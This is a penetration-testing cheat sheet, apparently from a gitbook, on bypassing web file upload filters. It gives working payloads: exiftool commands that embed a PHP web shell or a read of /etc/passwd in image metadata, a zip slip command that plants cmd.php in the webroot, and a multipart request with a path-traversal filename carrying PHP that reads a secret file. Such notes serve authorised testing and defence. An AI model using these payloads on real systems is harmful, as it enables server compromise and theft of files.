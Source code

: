 # Other filters/bypass

## File length filter

File length filters are used to prevent huge files being uploaded to the server via an upload form (as this can starve the server of resources). In most cases this will not cause us any problems when uploading shells; however, it is worth bearing in mind that if an upload form only expects a very small file to be uploaded, there may be a length filter in place to ensure that the file length requirement is met. For example, our PHP reverse shell (the one from pentest mokey) is 5.4Kb in size - relatively small, but if the form expects a maximum of 2Kb then we would have to find an alternative shell to upload. It may also be that a much larger file is expected.

## PHP getimagesize()

For file uploads that validate the image size via php getimagesize(), it may be possible to run shellcode by inserting it into the Comment attribute of the image properties and saving it as `file.jpg.php`. You can do this with gimp or exiftools:

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
# Reference: https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass#php-getimagesize
```

I'm not sure why some tutorials have the php extension first while others have it second. Try both.

## File name filtering

As mentioned above, files uploaded to a server must be unique. Normally this would mean adding a random aspect to the file name, however, an alternative strategy would be to check if a file with the same name already exists on the server, and give an error to the user if it does. In addition, filenames should be sanitized upon upload to ensure that they do not contain any "bad characters", which could cause file system problems upon upload (e.g. null bytes or slashes in Linux, as well as control characters such as ; and potentially unicode characters). What this means for us is that, on a well-managed system, our uploaded files are unlikely to have the same name we gave them before we uploaded them, so be aware that you may have to go hunting for your shell in the event that you manage to bypass content filtering.

## File content filtering

More complicated filtering systems can scan the entire contents of an uploaded file to make sure you are not spoofing its extension, MIME type, and magic number. This is a significantly more complex process than most basic filtering systems employ.

## File Upload + Path Traversal

### Zip slip

Zip Slip is a widespread critical archive extraction vulnerability, allowing attackers to write arbitrary files on the system, typically resulting in remote command execution.

The vulnerability has been found in multiple ecosystems, including JavaScript, Ruby, .NET and Go, but is especially prevalent in Java, where there is no central library offering high level processing of archive (e.g. `zip`) files.

```
zip test.zip ../../../../../../../var/www/html/cmd.php
```

### Path traversal in filename field

{% hint style="danger" %}
Try to use some [encoding or some modification](../inclusion-lfi-rfi-traversal/lfi-rfi-payloads.md#lfi-payloads) in the payload to avoid some filters.
{% endhint %}

```bash
-----------------------------241661251632866372162072905474
Content-Disposition: form-data; name="avatar"; filename="..%2fshell.php"
Content-Type: application/x-php

<?php system("cat /home/carlos/secret"); ?>
```

## Faulty validation of file content

Rather than implicitly relying on the Content-Type specified in a request, more secure servers attempt to verify that the file content actually matches what is expected.

This is a much more robust way to validate the file type, but even this is not foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG/PNG file that contains malicious code within its metadata.

{% hint style="danger" %}
For this type of evasion, we need a PNG/JPG image to embed malicious metadata and then convert it to a PHP file.
{% endhint %}

```bash
exiftool -Comment="<?php echo '<pre>' . system('cat /etc/passwd') . '</pre>'; ?>" image.png -o test.php
```

## [File Upload via Race Condition](../race-condition/file-upload-via-race-condition.md) <a href="#exploiting-file-upload-race-conditions" id="exploiting-file-upload-race-conditions"></a>
